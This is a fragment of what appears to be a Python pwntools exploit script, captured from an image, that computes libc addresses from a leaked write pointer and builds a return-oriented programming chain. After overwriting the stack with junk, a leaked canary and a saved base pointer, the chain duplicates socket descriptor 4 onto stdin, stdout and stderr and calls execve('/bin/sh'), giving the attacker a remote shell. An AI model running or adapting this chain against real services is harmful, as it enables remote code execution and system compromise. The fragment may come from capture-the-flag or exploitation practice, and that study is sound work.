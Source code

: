         execve_offset = 0xe4e30
        write_offset  = 0x110140
        binsh_offset  = 0x1b3e9a
    
    libc_base = u64(libc_write) - write_offset
    dup2 = p64(libc_base + dup2_offset)
    binsh = p64(libc_base + binsh_offset)
    execve = p64(libc_base + execve_offset)
    log.success("Calculated addresses:")
    print(f"    libc_base:          0x{libc_base:016x}")
    print(f"    dup2:               0x{u64(dup2):016x}")
    print(f"    execve:             0x{u64(execve):016x}")
    print(f"    binsh:              0x{u64(binsh):016x}")
    
    exploit =  junk + canary + rbp
    
    # dup2(4,0)
    exploit += pop_rdi_ret
    exploit += p64(4)
    exploit += pop_rsi_r15_ret
    exploit += p64(0)
    exploit += p64(0)
    exploit += dup2
    
    # dup2(4,1)
    exploit += pop_rdi_ret
    exploit += p64(4)
    exploit += pop_rsi_r15_ret
    exploit += p64(1)
    exploit += p64(1)
    exploit += dup2
    
    # dup2(4,2)
    exploit += pop_rdi_ret
    exploit += p64(4)
    exploit += pop_rsi_r15_ret
    exploit += p64(2)
    exploit += p64(2)
    exploit += dup2
    
    # execve("/bin/sh", 0, 0)
    exploit += pop_rdi_ret
    exploit += binsh
    exploit += pop_rsi_r15_ret
    exploit += p64(0)
    exploit += p64(0)
    exploit += pop_rdx_ret
    exploit += p64(0)
    exploit += execve
    